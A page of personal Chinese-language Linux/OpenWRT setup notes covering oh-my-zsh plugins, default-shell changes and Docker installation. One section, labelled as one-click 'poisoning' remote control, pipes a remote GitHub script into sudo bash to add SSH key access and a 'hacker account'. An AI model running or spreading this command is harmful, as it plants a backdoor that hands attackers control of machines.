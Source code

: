 ```shell
opkg install ca-bundle

# 解决收手机字体问题
sudo apt-get install fonts-powerline

# 安装插件
cd ~/.oh-my-zsh/plugins
git clone https://github.com/zsh-users/zsh-syntax-highlighting.git
git clone https://github.com/zsh-users/zsh-autosuggestions.git

# 编辑配置
vim ~/.zshrc
ZSH_THEME="agnoster" or "ys"
plugins=(git zsh-syntax-highlighting zsh-autosuggestions sudo)

# 刷新
source ~/.zshrc

# 设置 ZSH 为默认 shell
cat /etc/shells
chsh -s /bin/zsh

# OpenWRT 设置 ZSH 为默认 shell
which zsh && sed -i -- 's:/bin/ash:'`which zsh`':g' /etc/passwd

# 迁移到其他用户
cd ~
cp .oh-my-zsh /home/wf/.oh-my-zsh -r
cp .zshrc /home/wf/.zshrc
cp .vimrc /home/wf/.vimrc

# 修复权限
sudo chown -R wf /home/wf/.oh-my-zsh
compaudit | xargs chmod g-w,o-w

```

### SSH 设置密钥登陆并添加 hacker account

用于一键下毒远控。

```shell
curl -sSL https://raw.githubusercontent.com/WhaleFell/TGBot/main/exc.sh | sudo /bin/bash
```

## Docker

### 安装

国内加速: [https://get.daocloud.io/](https://get.daocloud.io/)

官方命令安装：
